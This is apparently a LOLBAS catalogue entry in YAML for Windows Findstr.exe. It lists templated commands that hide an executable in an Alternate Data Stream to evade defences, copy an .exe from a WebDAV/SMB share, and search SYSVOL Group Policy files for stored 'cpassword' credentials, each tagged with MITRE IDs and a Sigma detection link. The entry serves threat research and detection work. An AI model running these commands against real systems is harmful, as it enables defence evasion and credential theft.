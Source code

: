```yaml
---
Name: Findstr.exe
Description: Write to ADS, discover, or download files with Findstr.exe
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: findstr /V /L W3AllLov3LolBas {PATH_ABSOLUTE:.exe} > {PATH_ABSOLUTE}:file.exe
    Description: Searches for the string W3AllLov3LolBas, since it does not exist (/V) the specified .exe file is written to an Alternate Data Stream (ADS) of the specified target file.
    Usecase: Add a file to an alternate data stream to hide from defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: findstr /V /L W3AllLov3LolBas {PATH_SMB:.exe} > {PATH_ABSOLUTE}:file.exe
    Description: Searches for the string W3AllLov3LolBas, since it does not exist (/V) file.exe is written to an Alternate Data Stream (ADS) of the file.txt file.
    Usecase: Add a file to an alternate data stream from a webdav server to hide from defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: findstr /S /I cpassword \\sysvol\policies\*.xml
    Description: Search for stored password in Group Policy files stored on SYSVOL.
    Usecase: Find credentials stored in cpassword attrbute
    Category: Credentials
    Privileges: User
    MitreID: T1552.001
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: findstr /V /L W3AllLov3LolBas {PATH_SMB:.exe} > {PATH_ABSOLUTE:.exe}
    Description: Searches for the string W3AllLov3LolBas, since it does not exist (/V) file.exe is downloaded to the target file.
    Usecase: Download/Copy file from webdav server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\findstr.exe
  - Path: C:\Windows\SysWOW64\findstr.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_lolbin_findstr.yml
Resources:
  - Link: https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
  - Link: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

